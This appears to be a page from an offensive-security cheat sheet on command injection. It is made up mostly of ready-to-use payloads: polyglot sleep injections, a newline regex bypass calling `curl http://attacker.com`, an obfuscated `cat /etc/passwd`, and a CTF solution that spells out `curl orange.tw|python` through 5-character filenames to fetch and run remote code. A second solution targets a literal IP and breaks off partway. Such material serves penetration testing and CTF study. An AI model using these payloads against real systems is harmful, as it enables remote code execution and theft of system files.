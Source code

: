 ### Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```

### Bypass potential regexes

```bash
# A regex that only allow letters and numbers might be vulnerable to new line characters
1%0a`curl http://attacker.com`
```

### Bashfuscator

```bash
# From https://github.com/Bashfuscator/Bashfuscator
./bashfuscator -c 'cat /etc/passwd'
```

### RCE with 5 chars

```bash
# From the Organge Tsai BabyFirst Revenge challenge: https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
#Oragnge Tsai solution
## Step 1: generate `ls -t>g` to file "_" to be able to execute ls ordening names by cration date
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

## Step2: generate `curl orange.tw|python` to file "g"
## by creating the necesary filenames and writting that content to file "g" executing the previous generated file
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
http://host/?cmd=>\ \
http://host/?cmd=>rl\
http://host/?cmd=>cu\
http://host/?cmd=sh _
# Note that a "\" char is added at the end of each filename because "ls" will add a new line between filenames whenwritting to the file

## Finally execute the file "g"
http://host/?cmd=sh g


# Another solution from https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
# Instead of writing scripts to a file, create an alphabetically ordered the command and execute it with "*"
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
## Execute tar command over a folder
http://52.199.204.34/?cmd=>tar
http://52.199.204.34/?cmd=>zcf
```